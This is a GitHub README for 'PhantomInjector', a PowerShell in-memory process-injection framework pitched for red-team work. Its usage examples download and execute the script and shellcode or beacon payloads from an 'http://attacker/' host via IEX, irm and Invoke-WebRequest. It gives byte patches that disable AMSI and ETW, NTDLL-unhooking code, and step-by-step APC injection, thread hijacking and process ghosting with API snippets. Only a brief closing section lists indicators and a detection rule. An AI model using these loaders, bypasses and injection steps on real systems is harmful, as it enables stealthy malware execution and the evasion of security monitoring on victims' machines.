



# PhantomInjector – Advanced In-Memory Process Injection Framework

  

A stealthy PowerShell-based process injection framework implementing multiple in-memory techniques with evasion capabilities, designed for red team engagements and penetration testing.

---

## Features

- **Multiple Injection Techniques**  
  - APC Injection (Early Bird + `QueueUserAPC`)  
  - Thread Hijacking with crash protection  
  - Process Ghosting (no disk writes)  
  - Classic Remote Thread Injection  

- **Evasion Capabilities**  
  - AMSI bypass via function patching  
  - ETW bypass via `EtwEventWrite` hooking  
  - NTDLL unhooking from disk  
  - Direct syscall support (via in-memory assembly)  

- **Operational Security**  
  - Anti-debug checks  
  - Sandbox detection  
  - Dynamic payload loading  

---

## Architecture


---

## Usage

### 1. Basic Injection

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PhantomInjector.ps1')
Invoke-PhantomInjector `
  -PayloadPath shellcode.bin `
  -ProcessName notepad `
  -InjectionMethod APC
```

### 2. Remote Payload with ETW/AMSI Bypass

```powershell
iex (irm http://attacker/PhantomInjector.ps1)
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/shellcode.bin `
  -BypassAMSI `
  -BypassETW `
  -InjectionMethod ThreadHijack
```

### 3. Process Ghosting (No Disk)

```powershell
$loader = [System.Text.Encoding]::UTF8.GetString((
  Invoke-WebRequest 'http://attacker/PhantomInjector.ps1').Content)
iex $loader
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/beacon.bin `
  -InjectionMethod GhostProcess
```

---

## Technical Deep Dive

### Evasion Techniques

#### AMSI Bypass

Patches **AmsiScanBuffer** in memory to return `0x80070057` (`E_INVALIDARG`):

```csharp
byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; // mov eax,0x80070057; ret
```

#### ETW Bypass

Overwrites **EtwEventWrite** with a single `RET` instruction:

```csharp
byte[] patch = { 0xC3 }; // ret
```

#### NTDLL Unhooking

1. Load a clean copy of `ntdll.dll` from disk.  
2. Compare exported function bytes against the in-memory copy.  
3. Overwrite hooked functions in memory:

```csharp
Marshal.Copy(cleanBytes, 0, hookedAddr, 0x20);
```

---

### Injection Methods

#### APC Injection

1. Allocate RWX memory in the target process (`VirtualAllocEx`).  
2. Write shellcode (`WriteProcessMemory`).  
3. Queue APC to all threads (`QueueUserAPC`).  
4. Resume threads to trigger execution.



```csharp
QueueUserAPC(allocAddr, hThread, IntPtr.Zero);
ResumeThread(hThread);
```

#### Thread Hijacking

1. Enumerate and suspend a target thread.  
2. Capture and save its context.  
3. Write shellcode to a new RWX region.  
4. Redirect the thread’s instruction pointer (`Rip/Eip`).  
5. Resume thread.



```csharp
context.Rip = (ulong)allocAddr;
SetThreadContext(hThread, ref context);
```

#### Process Ghosting

1. Begin an NTFS transaction (TxF).  
2. Write a legitimate template EXE into the transaction.  
3. Spawn the process suspended via `NtCreateSection` / `NtCreateProcessEx`.  
4. Inject shellcode.  
5. Commit the transaction to delete the on-disk file, leaving only the in-memory process.


```csharp
NtCreateSection(out hSection, SEC_ALL_ACCESS, IntPtr.Zero, 0,
                PAGE_EXEC_READ, SEC_IMAGE, hFile);
NtCreateProcessEx(out hProcess, PROC_ALL_ACCESS, IntPtr.Zero,
                  GetCurrentProcess(), CREATE_SUSPENDED, hSection, …);
```

---

## Detection & Mitigation

### Indicators of Compromise (IoCs)

- PowerShell spawning uncommon processes with network connections (e.g., Notepad).  
- RWX memory allocations in high-privilege processes.  
- APC calls to non-module memory regions.  
- Unusual patches in `ntdll.dll` at runtime.

### Defensive Measures

```yaml
# Sysmon Configuration Snippet
- rule: PhantomInjector Detection
  desc: Detects common injection patterns from PowerShell
  conditions:
    - ParentImage: "powershell.exe"
    - (AllocationProtect: "0x40" OR Protect: "0x40")  # PAGE_EXECUTE_READWRITE
    - CreateRemoteThread: true
  action: alert
```

---

## Credits

- **Author**: 0xMaz Mohamed Alzhrani  
- Techniques inspired by APCry, Process Ghosting studies, and community malware research.

---

## License

MIT — Use responsibly and only on authorized systems.  
```
